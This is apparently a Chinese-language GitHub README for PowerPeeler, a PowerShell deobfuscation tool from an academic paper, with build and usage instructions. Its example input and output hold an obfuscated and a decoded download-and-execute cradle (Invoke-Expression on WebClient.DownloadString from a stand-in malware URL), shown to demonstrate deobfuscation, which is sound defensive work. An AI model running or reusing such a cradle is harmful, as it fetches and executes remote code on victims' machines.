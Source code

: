 # PowerPeeler

>一款通用且精确的PowerShell脚本反混淆器



### 相关资料

- 会议版论文
- 完整版论文：[arxiv](https://arxiv.org/abs/2406.04027)



### 使用方法

1. 环境需求

   - 基本环境：参见[PowerShell官方编译指南](https://github.com/PowerShell/PowerShell#building-the-repository)
   - .net core 3.1
   - pwsh(powershell>=7)
   - PSScriptAnalyzer（可选，用于代码格式化）
   - [Invoke-Deobfuscation](https://gitee.com/snowroll/invoke-deobfuscation)（可选，用于动静态结合反混淆）

2. 工具获取

   ```bash
   git clone https://github.com/zhengbili/PowerPeeler
   ```

   或

   ```bash
   git clone https://gitee.com/snowroll/powerpeeler
   ```

3. 沙箱编译

   ```powershell
   cd PowerPeeler
   pwsh ./build.ps1
   ```

4. 工具使用

   1. 切换目录，防止部分恶意脚本污染当前目录：```cd sandbox```
   2. 进入特殊pwsh环境：```../pwsh```
   3. 在特殊pwsh环境中执行反混淆脚本

   ```powershell
   ../Deobfuscation/deob.ps1 --SettingType [Simple|Analysis|SemanticAnalysis]  --InputPath 输入文件位置 --OutputPath 输出文件位置 [-cmd] [-log]
   ```
​	```-st --SettingType```	反混淆模式，有几种预设，可自行修改代码
​	```-ip --InputPath```	输入文件位置
​	```-op --OutputPath```	输出文件位置
​	```-cmd --IsCmd```	cmd一句话模式
​	```-log --SaveLog```	保存日志，可用于反混淆结构查看器



### 使用示例

> samples/unittest.ps1中包含了多种不同类型的测试样例，可参阅

```../pwsh ../Deobfuscation/deob.ps1 -ip in.ps1 -op out.ps1```

- in.ps1

  ```powershell
  Ie`X ("{2}{0}{1}" -f 'ost h', 'ello', 'write-h')
  $xdjmd  =   'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG'
  $lsffs =   '8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA='
  $sdfs = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($xdjmd + $lsffs))
  .($psHoME[4]+$PShOmE[30]+'x') (Ne`W-oB`JeCt Net.Web`C`lient).downloadstring($sdfs)
  ```

- out.ps1

  ```
  Write-Host ([string]'hello')
  $xdjmd = ([string]'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG')
  $lsffs = ([string]'8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA=')
  $sdfs = ([string]'https://test.com/malware.txt')
  .'Invoke-Expression' (New-Object ([string]'Net.WebClient')).DownloadString(([string]'https://test.com/malware.txt'))
  ```



### 反混淆结构查看器

> 参考二进制反混淆的层级结构查看器

由于采用了直接变量替换，直接采用反混淆脚本存在部分反混淆过度的问题。为方便用户自行确定反混淆边界，```Deobfuscation/```下提供了一个简易的反混淆结构查看器。



### 引用格式

```
@misc{li2024powerpeelerprecisegeneraldynamic,
      title={PowerPeeler: A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts}, 
      author={Ruijie Li and Chenyang Zhang and Huajun Chai and Lingyun Ying and Haixin Duan and Jun Tao},
      year={2024},
      eprint={2406.04027},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2406.04027}, 
}
```



